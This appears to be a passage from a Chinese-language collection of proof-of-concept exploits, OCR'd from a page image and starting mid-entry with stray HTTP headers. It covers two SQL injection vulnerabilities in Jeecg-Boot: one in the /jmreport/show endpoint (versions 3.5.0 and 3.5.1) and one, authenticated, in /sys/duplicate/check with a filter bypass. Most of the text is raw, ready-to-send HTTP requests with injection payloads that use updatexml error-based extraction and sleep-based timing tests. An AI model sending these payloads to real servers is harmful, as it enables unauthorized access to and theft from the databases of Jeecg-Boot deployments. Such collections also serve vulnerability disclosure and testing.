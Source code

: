 Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
  
Accept-Encoding: gzip, deflate, br  
  
Sec-Purpose: prefetch  
  
Connection: close  
  
Priority: u=6  
## Jeecg-Boot /jmreport/show SQL注入漏洞  
  
jeecg-boot 3.5.0和3.5.1 版本存在安全漏洞，该漏洞源于 /jeecg-boot/jmreport/show 接口的 id 参数存在SQL注入漏洞。  
  
  
POST /jeecg-boot/jmreport/show HTTP/1.1  
  
Host:   
  
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1866.237 Safari/537.36  
  
Connection: close  
  
Content-Length: 182  
  
Content-Type: application/json;charset=UTF-8  
  
Accept-Encoding: gzip  
  
{  
  
"id": "961455b47c0b86dc961e90b5893bff05",  
  
"apiUrl": "",  
  
"params": {  
  
"id ": "1 ' or ' % 1 % ' like (updatexml(0x3a,concat(1,(version())),1)) or ' % % ' like '"  
  
}  
  
}  
## jeecg-boot sys/duplicate/check SQL注入  
  
/sys/duplicate/check 接口SQL注入，checksql可以被绕过，该漏洞需要进行身份认证。  
  
  
GET /jeecg-boot/sys/duplicate/check?tableName=v3_hello&fieldName=1+and%09if(user(%20)='root@localhost',sleep(0),sleep(0))&fieldVal=1&dataId=asd HTTP/1.1  
  
Host:   
  
Accept-Encoding: gzip, deflate  
  
Accept: */*  
  
Accept-Language: en-US;q=0.9,en;q=0.8  
  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.114 Safari/537.36  
  
Connection: close  
  